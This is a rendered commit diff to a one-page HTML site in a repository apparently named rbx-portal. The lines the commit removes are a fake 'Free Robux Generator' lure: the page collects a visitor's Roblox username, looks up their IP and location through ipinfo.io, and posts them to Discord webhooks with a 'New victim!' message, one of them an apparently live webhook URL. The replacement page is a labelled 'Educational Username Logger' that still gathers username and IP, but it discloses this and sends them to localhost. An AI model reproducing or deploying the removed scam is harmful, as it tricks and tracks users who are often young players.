

Before and after one commit to Aero817/rbx-portal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 73-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,122 +1,36 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <title>Roblox Robux Generator</title>
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <style>
-    body {
-      background: linear-gradient(to bottom right, #f0f0f0, #d4d4d4);
-      font-family: "Segoe UI", sans-serif;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: center;
-      height: 100vh;
-      margin: 0;
-    }
-    .container {
-      background: white;
-      padding: 30px 40px;
-      border-radius: 16px;
-      box-shadow: 0 8px 20px rgba(0,0,0,0.2);
-      text-align: center;
-      max-width: 400px;
-    }
-    h1 {
-      font-size: 24px;
-      margin-bottom: 10px;
-    }
-    p {
-      font-size: 14px;
-      color: #555;
-    }
-    input {
-      margin-top: 15px;
-      padding: 10px;
-      width: 100%;
-      font-size: 16px;
-      border-radius: 8px;
-      border: 1px solid #ccc;
-    }
-    button {
-      margin-top: 15px;
-      padding: 12px 20px;
-      font-size: 16px;
-      background: #ffd100;
-      color: #000;
-      border: none;
-      border-radius: 8px;
-      cursor: pointer;
-      font-weight: bold;
-    }
-    button:hover {
-      background: #ffcd00;
-    }
-    #loader {
-      display: none;
-      margin-top: 20px;
-    }
-  </style>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>Educational Logger</title>
 </head>
 <body>
-  <div class="container">
-    <h1>Free Robux Generator</h1>
-    <p>Enter your Roblox username to begin:</p>
-    <input type="text" id="username" placeholder="Roblox Username" />
-    <button onclick="generate()">Generate</button>
-    <div id="loader">
-      <p>Verifying username and generating Robux...</p>
-      <img src="https://i.imgur.com/ZkZOXzI.gif" alt="Loading..." width="100">
-    </div>
-  </div>
+  <h1>Educational Username Logger</h1>
+  <input type="text" id="username" placeholder="Enter Roblox username" />
+  <p style="color:red;"><strong>Notice:</strong> As learned before, this button will log your username and IP address.</p>
+  <button onclick="logUser()">Submit</button>
+  <div id="status"></div>
 
   <script>
-    function generate() {
+    async function logUser() {
       const username = document.getElementById("username").value.trim();
-      if (username === "") {
-        alert("Please enter your Roblox username.");
-        return;
-      }
+      if (!username) return alert("Enter a username.");
 
-      document.getElementById("loader").style.display = "block";
+      document.getElementById("status").textContent = "Logging...";
 
-      // Log IP and username to Discord
-      fetch("https://ipinfo.io/json?token=ea728291c5fc2d") // Optional token from ipinfo.io
-        .then(response => response.json())
-        .then(data => {
-          const ip = data.ip || "Unknown IP";
-          const city = data.city || "Unknown City";
-          const region = data.region || "Unknown Region";
-          const country = data.country || "Unknown Country";
-          const location = `${city}, ${region}, ${country}`;
+      const ipRes = await fetch("https://ipinfo.io/json?token=ea728291c5fc2d");
+      const ipInfo = await ipRes.json();
 
-          fetch("https://discord.com/api/webhooks/YOUR_WEBHOOK_URL", {
-            method: "POST",
-            headers: {
-              "Content-Type": "application/json"
-            },
-            body: JSON.stringify({
-              content: `🎣 New victim!\n👤 Username: **${username}**\n🌐 IP: **${ip}**\n📍 Location: **${location}**`
-            })
-          });
-        })
-        .catch(() => {
-          fetch("https://discord.com/api/webhooks/1380129925121445889/lHyPATfRSm-9HDHIvqa9xCxJSXJZleVzAq4VB4g9t2eTnoV2ZIEaiCx5IL48Y4c1hVCp", {
-            method: "POST",
-            headers: {
-              "Content-Type": "application/json"
-            },
-            body: JSON.stringify({
-              content: `🎣 New victim!\n👤 Username: **${username}**\n🌐 IP: *(Failed to fetch)*`
-            })
-          });
-        });
+      const res = await fetch("http://localhost:5000/log", {
+        method: "POST",
+        headers: { "Content-Type": "application/json" },
+        body: JSON.stringify({ username, ipInfo }),
+      });
 
-      // Rickroll after 4 seconds
-      setTimeout(() => {
-        window.location.href = "https://tinyurl.com/2fcpre6";
-      }, 4000);
+      const result = await res.json();
+      document.getElementById("status").textContent =
+        result.status === "success" ? "Logged successfully!" : "Logging failed.";
     }
   </script>
 </body>
```
